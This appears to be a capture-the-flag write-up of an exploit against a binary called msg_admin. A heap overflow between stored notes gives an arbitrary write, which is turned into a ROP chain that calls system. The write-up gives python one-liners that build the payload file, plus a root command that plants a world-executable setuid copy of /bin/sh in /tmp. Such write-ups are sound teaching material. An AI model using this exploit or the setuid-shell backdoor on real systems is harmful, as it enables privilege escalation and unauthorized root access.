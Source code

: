 ```
>```

The msg_admin has NX/ASLR/Partial RELRO. This means that to exploit this binary we need to build a ROP-chain.

The notes are stored on the heap, after one another. It is possible for a message text to overflow the pointers to the name and text of the next note, which controls the destination of the strcpy function and enables arbitrary write-what-where. I make extensive use of the writeable memory range <0x0804b000-0x0804c000> to copy gadgets, strings, and pointers into. Also, some things are copied into the GOT after he address of start_main, since this is copied last and might get overwritten elsewise. Control of EIP is gained by overwriting strncpy in the GOT.

I achieved code execution with the following ROP-chain:

>```
>-Overwrite strncpy in the GOT with 0x8048ddc, a pop pop pop pop ret gadget which clears some garbage of the stack and enables us to return to...
>-0x8048630 <strcpy@plt>: to which we control both destination and source. This enables us to copy the adress __libc_start_main from the GOT into memory that we control
>-0x804894b pop pop pop ebp ret: which allow us to get an arbitrary value into EBP for use with..
>-0x8048788 leave ret: we now have the stack fully ready to return into memory where we wrote data with the programs earlier strcpy's, and where we have a pointer to __libc_start_main waiting for us.
>-0x8048d6e popal, cld, ret: this puts the pointer to __libc_start_main into EAX, and set an arbitrary value into EBX (we actually control all the registers, but only need these two)
>-0x8048feb add eax,DWORD PTR [ebx+0x1270304]: the difference between __libc_start_main and system is 0x26800, this unfortunately contains a pesky nullbyte so instead i use 0x26801. the value of EBX is chosen in the previous step such that DWORD PTR [ebx+0x1270304] == 0x26801
>-0x8048ddd pop pop pop ret: we need to get past the value 0x26801 tnhat we needed in the previous step
>-0x804b944 call eax: EAX now points to <system+1>, which is no problem since the first instruction only pushes a register on the stack to save it, but which is not used, for which we compensate by adding some garbage on the stack before the pointer to the string we want executed.
>-crash unelegantly: whatever, it is done.
>```

Paste this in your terminal to create the note that does it (to follow along in gdb, put a breakpoint at 0x8048ddc or strncpy@got.plt to see the ROP-chain, you'ĺl need to get libc.so.6 from the VM to follow into <system+1>):

>```python
>python -c 'print "ZZZZ|" + "A"*212 + "\x0c\xb9\x04\x08" + "\x10\xb9\x04\x08"' >  x.msg
>python -c 'print "\x6e\x8d\x04\x08|"+ "A" * 16 + "\x34\xb6\xdd\x06" + "A"*32 + "\x86\x87\x04\x08AAAA\x50\xb9\x04\x08YOUR ROOT COMMAND HERE"' >> x.msg
>python -c 'print "XXXX|" + "A"*212 + "\x4c\xb0\x04\x08" + "\x34\xbe\x04\x08"' >> x.msg
>python -c 'print "\xeb\x8f\x04\x08\xdd\x8d\x04\x08\x01\x68\x02|" + "A"*211' >> x.msg # nice: strcpy adds a nullbyte for us to get 0x00026801 in memory
>python -c 'print "VVVV|" + "A"*211' >> x.msg
>python -c 'print "UUUU|" + "A"*211' >> x.msg
>python -c 'print "TTTT|" + "A"*211' >> x.msg
>python -c 'print "SSSS|\x30\x86\x04\x08\x4b\x89\x04\x08\x2c\xb9\x04\x08\x48\xb0\x04\x08\x08\xb9\x04\x08\x88\x87\x04\x08" + "A"*188 + "\x20\xb0\x04\x08" + "\x58\xb0\x04\x08"' >> x.msg #overflow pointer for next note text with address of strncpy@got
>python -c 'print "RRRR|\xdc\x8d\x04\x08"' >> x.msg #the first rop address
>```

I used

>```bash
>cp /bin/sh /tmp/sh
>chown root:root /tmp/sh
>chmod 4777 /tmp/sh
>```

```